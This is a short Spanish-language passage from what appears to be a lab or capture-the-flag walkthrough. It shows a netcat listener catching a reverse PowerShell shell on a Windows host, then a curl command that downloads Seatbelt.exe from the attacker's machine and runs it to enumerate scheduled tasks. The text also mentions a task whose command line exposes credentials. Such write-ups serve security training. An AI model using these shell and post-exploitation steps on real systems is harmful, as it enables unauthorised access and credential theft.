 ```powershell
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.38.20
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.  

PS C:\Windows\System32> whoami
web01\svc_dev
PS C:\Windows\System32>
```

Dentro de este contexto, podemos proceder a enumerar las tareas utilizando Seatbelt. Durante la enumeración, se identificó una tarea llamada AutochkTask que intenta cargar contenido desde \\fin01\invoices. Sin embargo, en el propio comando se muestran credenciales, lo que representa una posible vulnerabilidad de seguridad.

```powershell
PS C:\ProgramData> curl 10.10.14.10/Seatbelt.exe -o Seatbelt.exe
PS C:\ProgramData> .\Seatbelt.exe ScheduledTasks


                        %&&@@@&&                                                                                  
                        &&&&&&&%%%,                       #&&@@@@@@%%%%%%###############%                         
                        &%&   %&%%                        &////(((&%%%%%#%################//((((###%%%%%%%%%%%%%%%  
%%%%%%%%%%%######%%%#%%####%  &%%**#                      @////(((&%%%%%%######################(((((((((((((((((((  
#%#%%%%%%%#######%#%%#######  %&%,,,,,,,,,,,,,,,,         @////(((&%%%%%#%#####################(((((((((((((((((((  
#%#%%%%%%#####%%#%#%%#######  %%%,,,,,,  ,,.   ,,         @////(((&%%%%%%%######################(#(((#(#((((((((((  
#####%%%####################  &%%......  ...   ..         @////(((&%%%%%%%###############%######((#(#(####((((((((  
#######%##########%#########  %%%......  ...   ..         @////(((&%%%%%#########################(#(#######((#####  
###%##%%####################  &%%...............          @////(((&%%%%%%%%##############%#######(#########((#####  
#####%######################  %%%..                       @////(((&%%%%%%%################                        
                        &%&   %%%%%      Seatbelt         %////(((&%%%%%%%%#############*                         
                        &%%&&&%%%%%        v1.2.1         ,(((&%%%%%%%%%%%%%%%%%,                                 
                         #%%%%##,                                                                                 

====== ScheduledTasks ======

Non Microsoft scheduled tasks (via WMI)

  Name                              :   Server Initial Configuration Task
  Principal                         :
      GroupId                       :   
      Id                            :   LocalSystem
      LogonType                     :   Service
      RunLevel                      :   TASK_RUNLEVEL_HIGHEST
      UserId                        :   SYSTEM
  Author                            :   $(@%systemroot%\system32\SrvInitConfig.exe,-100)
  Description                       :   $(@%systemroot%\system32\SrvInitConfig.exe,-101)
  Source                            :   
  State                             :   Disabled
  SDDL                              :   
```